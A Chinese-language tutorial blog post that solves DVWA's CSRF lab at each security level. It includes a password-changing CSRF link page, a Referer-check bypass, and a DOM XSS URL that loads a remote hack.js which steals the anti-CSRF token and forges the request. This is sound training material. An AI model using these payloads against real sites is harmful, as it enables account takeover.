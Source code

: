 ```yaml
---
layout: post
title: "DVWA CSRF (教學用)"
description: ""
date: 2023-07-11
categories:
  - DVWA
  - DVWA_CSRF
author: ""
tags: ['DVWA', 'CSRF']
---
```




# DVWA CSRF (教學用)
###### tags: `DVWA`





## low:

改密碼 get :

```htmlembedded
<form action="#" method="GET">
    New password:<br />
    <input type="password" autocomplete="off" name="password_new" /><br />
    Confirm new password:<br />
    <input type="password" autocomplete="off" name="password_conf" /><br />
    <br />
    <input type="submit" value="Change" name="Change" />
</form>

```


GET 方式的話，很簡單。

```
http://localhost/vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change#

```



### 製作一個網頁(給受害者)
```htmlembedded
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>

	<a href="http://localhost/vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change#">go</a>



</body>
</html>
```

已登入狀態下點擊這 link 就會修改密碼。


### code:
```php!
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?>
```

沒有任何判斷是否來自同一個頁面。





## medium

```htmlembedded
<form action="#" method="GET">
    New password:<br />
    <input type="password" autocomplete="off" name="password_new" /><br />
    Confirm new password:<br />
    <input type="password" autocomplete="off" name="password_conf" /><br />
    <br />
    <input type="submit" value="Change" name="Change" />
</form>


```



上方的方式沒用了，他顯示:
That request didn't look correct.



肯定是加了某些判別是否來自同個域名的條件。

code 關鍵點:
```
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false )
```
查看(跳轉來源)是否跟(伺服器) 為同域，




### 在別的網域上架設一個名為localhost.html 的網域
http://192.168.43.84/localhost.html
* a tag 加上 referrerpolicy : unsafe-url
https://www.ruanyifeng.com/blog/2019/06/http-referer.html


```htmlembedded
<!DOCTYPE html>
<html>
<head>
	<title></title>
</head>
<body>


	<a href="http://localhost/vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change#" referrerpolicy='unsafe-url' >go</a>

</body>
</html>
```

點擊就可成功。





## high:


bp 抓包 發現加上了 user_token
```http
GET /vulnerabilities/csrf/?password_new=111&password_conf=111&Change=Change&user_token=4e67863af0630abb4ecdb345172ddca9 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/vulnerabilities/csrf/
Cookie: PHPSESSID=5b3b866450ea4fb9b8cfa16f610a6065; security=high
Upgrade-Insecure-Requests: 1


```



### hacker 預先是不可能知道 token 的，所以無法偽造。

但如果，你網站有xss 的話，token 就失效了。

xss 的頁面抓取 token -> 惡意csrf + token 請求



### xss dom (high)
```link
http://localhost/vulnerabilities/xss_d/?default=English#<script src="http://192.168.43.84/hack.js"></script>
```


### http://192.168.43.84/hack.js
```javascript
async function getToken(url) {

 	let data = await fetch(url);

 	// data 轉為 text
 	data = await data.text();

 	//創造dom 物件
	const parser = new DOMParser();

	//把resoonse資料轉成dom
	const htmlDoc =  parser.parseFromString(data, "text/html");


	//querySelector 抓取 token 
	let token =  htmlDoc.querySelector("input[name=user_token]").value; 

	//回傳token
	return token;

}





async function csrf_send() {

	//拿token
	let url = "http://localhost/vulnerabilities/csrf/";

	let token =  await getToken(url);


    //csrf 
	csrf_url_Request = "http://localhost/vulnerabilities/csrf/?password_new=777&password_conf=777&Change=Change&user_token="

	//加上token 
	csrf_url_Request += token;



	//console.log(csrf_request) ;
	

    //fetch 發出請求
	fetch(csrf_url_Request);

}


csrf_send();

```


## impossible

多加上了一個 輸入舊密碼，要正確才能夠完成更改密碼。

礙於dvwa session impossible 的問題，不然應該還是可以加上暴力破解，來猜測成功。

(high 才有xss impossible 沒有)